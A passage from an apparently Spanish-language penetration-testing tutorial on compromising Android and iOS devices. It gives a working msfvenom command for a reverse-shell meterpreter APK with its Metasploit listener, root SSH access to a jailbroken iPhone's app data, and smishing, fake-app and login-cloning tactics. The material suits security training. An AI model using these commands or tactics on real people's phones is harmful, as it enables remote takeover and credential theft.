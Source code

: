 * Checkra1n (para dispositivos compatibles).
* Instalar terminal y `ssh`.

### 15.4.2. Herramientas útiles

* **iRET**: kit de pruebas de seguridad para iOS.
* **Frida**: manipulación de apps en tiempo real.

---

## 15.5. Comprometiendo Dispositivos Android

### 15.5.1. Payload con msfvenom

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -o app-maliciosa.apk
```

### 15.5.2. Configurar listener en Metasploit

```bash
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.56.10
set LPORT 4444
exploit
```

Al instalar la APK en la víctima, se obtiene una sesión meterpreter.

---

## 15.6. Comprometiendo Dispositivos iOS

En laboratorio con jailbreak:

1. Instalar `OpenSSH`.
2. Acceder con:

```bash
ssh root@IP_DEL_IPHONE
```

3. Buscar datos en `/var/mobile/Containers/Data/Application/`.

---

## 15.7. Ataques vía Ingeniería Social

* **Apps falsas**: imitar apps populares.
* **SMS phishing (Smishing)**: enlace a APK maliciosa.
* **Clonación de pantalla de login**: capturar credenciales.

---
